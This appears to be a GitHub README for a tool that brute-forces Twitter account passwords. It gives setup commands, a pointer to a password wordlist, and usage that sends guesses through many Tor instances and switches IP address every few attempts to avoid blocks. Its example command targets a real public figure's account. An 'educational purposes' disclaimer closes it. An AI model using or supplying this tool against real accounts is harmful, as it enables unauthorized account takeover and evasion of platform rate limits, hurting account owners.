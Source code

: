 # TBA
Twitter brute force attack (for educational purposes). <br>
This attack covers attacks on multiple instances and switching IP Address after every 2-4 attemps from one instance to prevent getting IP-blocked.

# How to
1. Install Geckodriver in path (Ubuntu 18.04):
```bash
export GV=v0.26.0
wget "https://github.com/mozilla/geckodriver/releases/download/$GV/geckodriver-$GV-linux64.tar.gz"
tar xvzf geckodriver-$GV-linux64.tar.gz
chmod +x geckodriver<br />
sudo cp geckodriver /usr/local/bin/
```
2. Download Tor binaries (Version 9.5 or newer on Ubuntu 18.04):
```bash
wget https://www.torproject.org/dist/torbrowser/9.5/tor-browser-linux64-9.5_en-US.tar.xz
tar -xf tor-browser-linux64-9.5_en-US.tar.xz
3. Install requirements:
```bash
pip install -r requirements.txt
```
4. Download suitable password list from [Github](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
5. Start brute forcing using command line
```bash
python3 TBA.py <username> <path_to_password_list> <path_to_tor_binaries> -<amount_of_tor_instances_optional>
python3 TBA.py realDonaldTrump path/to/wlist.txt path/to/tor-browser_en-US -instances 15
```

# Disclaimer
Do not use this if you are not sure wether you're acting on legal grounds or not.
In general it is not allowed to log into accounts you don't own.
This was made for educational purposes.
